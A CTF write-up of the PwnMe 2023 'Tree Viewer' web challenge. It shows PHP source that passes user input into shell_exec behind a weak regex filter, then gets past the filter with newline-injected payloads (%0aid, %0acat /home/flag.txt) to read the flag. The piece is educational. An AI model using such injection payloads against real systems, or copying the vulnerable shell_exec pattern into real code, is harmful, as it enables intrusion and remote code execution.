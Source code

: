 # Tree Viewer

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 360 solves / 50 points
- Difficulty: Intro
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

> Author: Eteck#3426

Here, you can check the content of any directories present on the server.

Find a way to abuse this functionality, and read the content of `/home/flag.txt`

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230506114909.png)

In here, we can view the source code, and an input box, which allows us to check a directory.

**Let's look at the source code:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230506114959.png)

When the `source` GET parameter is provided, it'll highlight the index file.

```php
<?php
$parsed = isset($_POST['input']) ? $_POST['input'] : "/home/";

preg_match_all('/[;|]/m', $parsed, $illegals, PREG_SET_ORDER, 0);
if($illegals){
    echo "Illegals chars found";
    $parsed = "/home/";
}

if(isset($_GET['source'])){
    highlight_file(__FILE__);
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tree Viewer</title>
</head>
<body>
    <a href="/?source">Source code</a>
    <hr/>
    <form action="/" method="post">
        <label for="input">Directory to check</label>
    <input type="text" placeholder="Directory to see" id="input" name="input" value="<?= $parsed ?>">
    </form>

    <h3>Content of <?= $parsed ?>: <?= shell_exec('ls '.$parsed); ?></h3>
    
</body>
</html>
```

Let's break it down!

When `input` POST parameter is provided, ***it'll check the input contains `;` OR `|` character via regular expression (regex)***. If no `input` parameter is provided or it contains `;` OR `|`, default value will be `/home/`.

Finally, it'll **parse our `input` to a `shell_exec()` function, which will execute shell command!**

Nice, we found a sink (Dangerous function)!

**Let's look at the `shell_exec()` function:**
```php
<?= shell_exec('ls '.$parsed); ?>
```

This function will execute `ls <path>`!

That being said, although it has a regex filter, it's still **vulnerable to OS command injection!**

## Exploitation

**To bypass it, I'll use the new line character `\n` (`%0a` in URL encoding)!**
```shell
%0aid
```

**Also, I'll be using Burp Suite's Repeater to send the payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230506115756.png)

Boom! We have Remote Code Execution (RCE)!

**Let's read the flag!**
```shell
%0acat /home/flag.txt
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230506115910.png)

- **Flag: `PWNME{U53R_1NpU75_1n_5h3lL_3x3c_77}`**

## Conclusion

What we've learned:

1. Exploiting OS Command Injection & Bypassing Filters